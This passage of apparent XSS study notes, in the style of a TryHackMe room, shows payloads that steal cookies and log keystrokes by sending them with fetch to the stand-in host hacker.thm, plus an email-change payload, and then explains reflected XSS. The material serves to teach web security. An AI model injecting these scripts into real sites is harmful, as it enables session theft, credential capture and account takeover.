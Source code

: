   

```js
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```  

  

### **Key Logger:**
---
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

  

### **Business Logic:**
---
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```


![](cybersecurity/images/Pasted%2520image%252020241106101715.png)


## Reflected XSS
---

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

  
#### **Example Scenario**  
  
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)  

The application doesn't check the contents of the **error**
parameter, which allows the attacker to insert malicious code.
